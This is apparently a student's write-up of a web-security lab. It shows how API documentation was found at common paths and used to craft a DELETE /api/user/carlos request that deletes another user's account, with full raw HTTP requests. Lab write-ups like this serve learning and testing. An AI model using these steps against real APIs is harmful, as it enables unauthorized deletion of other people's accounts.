 # Lab - 01 : Exploiting an API endpoint using documentation

Topic :  Exploiting an API endpoint using documentation

Concept:  Reading through the documentation of the API and exploiting it.

End Goal : Deleting the user carlos

Analysis : 

- Check some common endpoints for finding api documentation.
    - IDEA → This can be automated using a script
- Some common endpoints are :
    - `/swagger/index.html`
    - `/openapi.json`
    - `/api/swagger/v1`
    - `/api/swagger`
    - `/api`
        - Note: **SWAGGER** is a popular api documentation tool.
- Given user credentials `wiener:peter`
- On the website, during recon, i found out that when trying to change the email, the website calls an API. The request is as follows :

```
PATCH /api/user/wiener HTTP/2
Host: 0a1900470369b05280ef21c000ea000e.web-security-academy.net
Cookie: session=dDf9LvNMWwocNu81DwSwc5VytBQDx9Qa
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a1900470369b05280ef21c000ea000e.web-security-academy.net/my-account
Content-Type: text/plain;charset=UTF-8
Content-Length: 21
Origin: https://0a1900470369b05280ef21c000ea000e.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

{"email":"qw@qw.com"}
```

- Here we can see that the endpoint is `/api/user/wiener` . Let’s find the documentation to this api now.
- Notable details :
    - PATCH request
    - body - params : **email**
- Found the documentation at `/api` endpoint

![image.png](Lab%20-%2001%20Exploiting%20an%20API%20endpoint%20using%20document%2026a3c5d54c76804d9cdce2a4a1ebfa70/image.png)

- So, to delete the user carlos, we have to make this request to the api.

```
DELETE /api/user/carlos [goal is to delete carlos]
```

- Final request
    
    ```
    DELETE /api/user/carlos HTTP/2
    Host: 0a1900470369b05280ef21c000ea000e.web-security-academy.net
    Cookie: session=dDf9LvNMWwocNu81DwSwc5VytBQDx9Qa
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate, br
    Referer: https://0a1900470369b05280ef21c000ea000e.web-security-academy.net/my-account
    Content-Type: text/plain;charset=UTF-8
    Content-Length: 0
    Origin: https://0a1900470369b05280ef21c000ea000e.web-security-academy.net
    Sec-Fetch-Dest: empty
    Sec-Fetch-Mode: cors
    Sec-Fetch-Site: same-origin
    Priority: u=0
    Te: trailers
    ```
    
- This solves tha lab.